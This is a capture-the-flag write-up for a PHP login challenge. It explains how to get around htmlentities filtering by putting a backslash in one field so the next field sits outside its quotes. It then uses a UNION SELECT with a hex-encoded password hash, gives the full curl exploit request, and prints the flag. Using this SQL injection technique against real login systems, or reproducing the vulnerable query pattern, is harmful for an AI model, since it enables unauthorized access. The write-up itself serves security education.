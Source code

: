 # Login portal

> During our investigations, we've manage to find the [login portal](http://aiodmb3uswokssp2pp7eum8qwcsdf52r.ctf.sg:50201/) for APOCALYSE members. Seems like all you have to do is login to get the flag, but it seems to be pretty damn secure since they actually filter user input and use password hashes. :(

Abbreviated version of attached `login.php`:

```php
$username = htmlentities($_POST["username"], ENT_QUOTES);
$agent_id = htmlentities($_POST["agent_id"], ENT_QUOTES);
$sql = "SELECT password FROM users WHERE username='$username' AND agent_id='$agent_id'";

$result = mysqli_query($conn, $sql);

$user = $result->fetch_row();

if ($user[0] === hash('sha256', $_POST["password"])) {
	echo getenv("FLAG");
} else {
	echo "Login Failed";
}
```

This is clearly an SQL injection attack, but with some mitigations.

The [`htmlentities`](https://www.php.net/manual/en/function.htmlentities.php) function, with `ENT_QUOTES` turns special characters like `'` into the corresponding HTML entity. For example,         `htmlentities("' or 1=1;--", ENT_QUOTES);` returns `&#039; or 1=1;--`, completely foiling our attack. We will need to use an alternative approach.

## Less is more

Sometimes, in SQL injection, we can try to disable some characters instead of adding them. This is especially useful in these kinds of challenges, where a filter prevents the use of `'`.

Let's see what happens when we set `username = \ ` and `agent_id =  abcd__   `  

```php
$sql = "SELECT password FROM users WHERE username='\' AND agent_id=' abcd__'";
// I shall replace \' with X to make it clearer
$sql = "SELECT password FROM users WHERE username='X AND agent_id=' abcd__'";
```

We have 'disabled' the closing quote character, turning it into a normal character with no special meaning as `\` is the escape character. When the query is executed, MySQL will read from the first `'`  at `username='` to the next quote at `agent_id='` and essentially interpret `'\' AND agent_id='` as a string. This leaves `$agent_id` unquoted, allowing us to execute an SQL injection attack!

## Union

In the next part of the challenge, we need to make the query return a value that's equal to the hash of `$_POST['password']`, which we control. The hash is compared using `===` so we can't just use magic hashes. Let's set `password = abcde`. Its corresponding hash is `36bbe50ed96841d10443bcb670d6554f0a34b761be67ec9c4a8ad2c0c44ca42c`. Now, we can unite these two parts using a union SQL injection.

```
username = \
password = abcde
agent_id = union select '36bbe50ed96841d10443bcb670d6554f0a34b761be67ec9c4a8ad2c0c44ca42c'--
```

But we come up against the constraint that quotes are not allowed. Fortunately, MySQL allows hex string literals. For example, `select 0x68656c6c6f20776f726c64;` will return `hello world`. If you don't believe me, you can try it in a MySQL console.

A quick script to convert a (byte) string to hex is `binascii`'s `b2a_hex`.

```python
from binascii import *
b2a_hex(b"hello world")
b'68656c6c6f20776f726c64'
```

Using this function, we can convert `36bbe50ed96841d10443bcb670d6554f0a34b761be67ec9c4a8ad2c0c44ca42c` to `0x33366262653530656439363834316431303434336263623637306436353534663061333462373631626536376563396334613861643263306334346361343263`, eliminating the need to use quotes. Thus the final attack is (copied curl from postman):

```
curl --location --request POST 'http://aiodmb3uswokssp2pp7eum8qwcsdf52r.ctf.sg:50201/login.php' \
--form 'username="\\"' \
--form 'agent_id=" union select 0x33366262653530656439363834316431303434336263623637306436353534663061333462373631626536376563396334613861643263306334346361343263;#"' \
--form 'password="abcde"'
```

Flag: `Cyberthon{4p0c4lypt1c_w0rld_d00m1n4t1on}`



I made a mistake of omitting `_` in `agent_id` during the CTF. Note to self to be more careful next time.

